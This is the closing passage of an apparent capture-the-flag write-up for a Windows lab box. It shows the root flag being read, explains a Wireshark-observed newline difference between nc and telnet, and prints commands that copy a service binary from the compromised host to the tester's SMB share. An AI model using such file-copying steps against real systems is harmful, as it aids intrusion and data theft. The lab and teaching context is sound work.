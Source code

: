 And I can get the root flag:

```

C:\Users\Administrator\Desktop>type root.txt
6594c2eb************************

```

## Beyond Root

As far as I knew, both `telnet` and `nc` transmit only what is input, with no protocol or any other wrapping around it. So why, when [enumerating port 4386](#hqk---tcp-4386), did one work, and the other not?

I opened up Wireshark, started a capture, and for each connected, typed `help` at the first prompt, and hit Enter. On first look, they looked exactly the same.

`nc`:

![image-20200605201227701](https://0xdfimages.gitlab.io/img/image-20200605201227701.png)

`telnet`:

![image-20200605201245413](https://0xdfimages.gitlab.io/img/image-20200605201245413.png)

When I looked at them as Hex, the answer immediately became clear:

`nc`:

![image-20200605201357255](https://0xdfimages.gitlab.io/img/image-20200605201357255.png)

`telnet`:

![image-20200605201412359](https://0xdfimages.gitlab.io/img/image-20200605201412359.png)

`nc` was sending a Linux newline, `\n` or 0x0a, when I hit Enter. `telnet` sends a Windows new line, `\r\n` or 0x0d 0x0a. Most applications I typically deal with are fine with the `\n`, but this application is not.

I used my shell to grab a copy of `HqkSvc.exe` over SMB (first started the server with `smbserver.py s . -username df -password df -smb2support`):

```

C:\PROGRA~1\HQK>net use \\10.10.14.24\s /u:df df
The command completed successfully.
C:\PROGRA~1\HQK>copy HqkSvc.exe \\10.10.14.24\s\
        1 file(s) copied.

```

Opening it in dnSpy, it wasn’t quite as simple, but eventually I found the function, `DataReceived`:

![image-20200605202225518](https://0xdfimages.gitlab.io/img/image-20200605202225518.png)
